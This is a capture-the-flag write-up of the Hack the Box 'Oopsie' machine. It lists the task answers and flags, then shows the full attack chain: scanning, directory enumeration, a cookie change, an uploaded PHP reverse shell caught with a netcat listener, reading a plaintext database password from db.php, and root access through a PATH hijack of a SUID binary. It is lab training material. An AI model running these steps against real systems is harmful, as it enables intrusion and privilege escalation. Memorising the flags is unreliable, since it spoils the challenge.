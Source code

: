 # Oopsie
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Oopsie
* Topic: PHP, SUID
* Difficulty: Very easy
* Date: 13-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. With what kind of tool can intercept web traffic? 
 - **proxy**
2. What is the path to the directory on the webserver that returns a login page? 
- **/cdn-cgi/login**
3. What can be modified in Firefox to get access to the upload page? 
- **cookie**
4. What is the access ID of the admin user?
- **34322**
5. On uploading a file, what directory does that file appear in on the server? 
- **/uploads**
6. What is the file that contains the password that is shared with the robert user? 
- **db.php**
7. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? 
- **find**
8. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? 
- **root**
9. What SUID stands for? 
- **set owner user id**
10. What is the name of the executable being called in an insecure manner? 
 - **cat**
 11. Submit user flag 
  - **f2c74ee8db7983851ab2a96a44eb7981**

---
## Flag:
Nmap:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -n -sC -sV 10.129.12.64
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 14:54 EDT
Nmap scan report for 10.129.12.64
Host is up (0.069s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.06 seconds
```

The web page:

![](./attachments/Pasted%20image%2020220413210129.png)

Burp:

![](./attachments/Pasted%20image%2020220413212527.png)

The Login page:

![](./attachments/Pasted%20image%2020220413212739.png)

Login as guest:

![](./attachments/Pasted%20image%2020220413212943.png)

Cookies:

![](./attachments/Pasted%20image%2020220413213635.png)

Access:

![](./attachments/Pasted%20image%2020220413213808.png)

File Uploaded:

![](./attachments/Pasted%20image%2020220413215722.png)

Find upload dir:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir --url 10.129.12.64 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.12.64
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2022/04/13 15:05:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.129.12.64/images/]
/index.php            (Status: 200) [Size: 10932]                                
/themes               (Status: 301) [Size: 313] [--> http://10.129.12.64/themes/]
/uploads              (Status: 301) [Size: 314] [--> http://10.129.12.64/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.12.64/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.129.12.64/js/]     
/fonts                (Status: 301) [Size: 312] [--> http://10.129.12.64/fonts/]  
                                                                                  
===============================================================
2022/04/13 15:36:01 Finished
===============================================================
```

Reverse shell call.

`http://10.129.12.64/uploads/php-reverse-shell.php`

![](./attachments/Pasted%20image%2020220413220747.png)

Netcat:

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.12.64] 52642
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:07:00 up  1:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@oopsie:/$ 
```

We got the shell!

Looking around for a bit, we find `db.php`. 

```console 
www-data@oopsie:/$ cat /var/www/html/cdn-cgi/login/db.php           
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ 
```

Great, now we are logged in as robert!

```console 
robert@oopsie:/$ cd ~
robert@oopsie:~$ ls
user.txt
robert@oopsie:~$ cat user.txt
f2c74ee8db7983851ab2a96a44eb7981

robert@oopsie:/$ cd tmp/
robert@oopsie:/tmp$ echo '/bin/sh' > cat
robert@oopsie:/tmp$ ls
cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/tmp$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 3
3
---------------
# whoami
root
```

And now as root!

```console
# pwd
/tmp
# rm cat
# cd /root
# ls
reports  root.txt
# cat root.txt
af13b0bee69f8a877c3faf667f7beacf
```

The final flag!

**Flag:** `af13b0bee69f8a877c3faf667f7beacf`

---
**Tags:** [[HackTheBox]]